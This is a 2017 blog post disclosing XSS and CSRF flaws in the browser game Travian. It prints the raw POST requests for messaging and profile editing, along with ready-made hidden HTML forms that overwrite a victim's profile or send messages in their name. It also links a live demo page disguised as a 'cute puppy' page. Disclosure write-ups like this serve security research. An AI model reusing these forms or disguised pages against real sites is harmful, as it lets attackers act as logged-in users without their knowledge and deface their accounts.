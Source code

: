 ```yaml
---
layout: post
title:  "Hacking Travian Profiles (CSRF)"
date:   2017-02-11
tags:
- CSRF
- Hacking
- Web
- Security
- Travian
categories: jekyll update
---
```


I detected multiple XSS and CSRF vulnerabilities in [Travian](http://travian.com/){:target="_blank"} (Online game).

- The in-game messaging system of Travian did not espace {}<>'" and, when sending messages to other users, I could embed malicious JS code in messages, Which got executed upon opening
- "Edit profile" was not CSRF-protected
- "Send message" was not CSRF-protected

Here are how HTTP requests looked like:


HTTP request to send message in Travian (summarized):

    POST /messages.php?t=1 HTTP/1.1
    Host: ts1.travian.com
    Cookie: <cookie data>
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 37

    an=odysseus&be=subject1&message=body1


HTTP request to edit profile in Travian (summarized):

    POST /spieler.php HTTP/1.1
    Host: ts1.travian.com
    Cookie: ...
    Connection: close
    Content-Type: application/x-www-form-urlencoded

    e=2&uid=19948&did=73537&tag=&monat=0&jahr=&mw=1&ort=hi&be1=test1&be2=test2&dname%5B73537%5D%3D=Ithaca&s1=Save

Surprisingly, none of `did` or `uid` were checked to protect against CSRF. I could easily setup a web page, and send a link to other users that upon opening:

- A message was sent on their behalf to another user
- Their profile info was modified (by me)

Forms to simulate the HTTP requets:

Hack user profile:

```html
    <form id="hackprofile" method="POST" action="http://ts1.travian.com/spieler.php">
        <input type="hidden" name="ort" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be1" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="be2" value="Your profile has been hacked. Please delete your profile">
        <input type="hidden" name="e" value="2">
        <input type="hidden" name="mw" value="1">
        <input type="hidden" name="s1" value="Save">
    </form>
```

Send message on behalf of user:

```html
<form id="msg" method="POST" action="http://ts1.travian.com/messages.php?t=1">
    <input type="hidden" name="an" value="odysseus">
    <input type="hidden" name="be" value="Test">
    <input type="hidden" name="message" value="Hi">
</form>
```

screnshots:

![Travian user profile](/images/travian-hack1.png){:width="300"}

![Travian sent messages](/images/travian-hack2.png){:width="300"}


Live demo can be viewed [here](/html/exploits/travian_hack/cute_puppy.html){:target="_blank"} (Works only if you are logged into [t1.travian.com](t1.travian.com)).
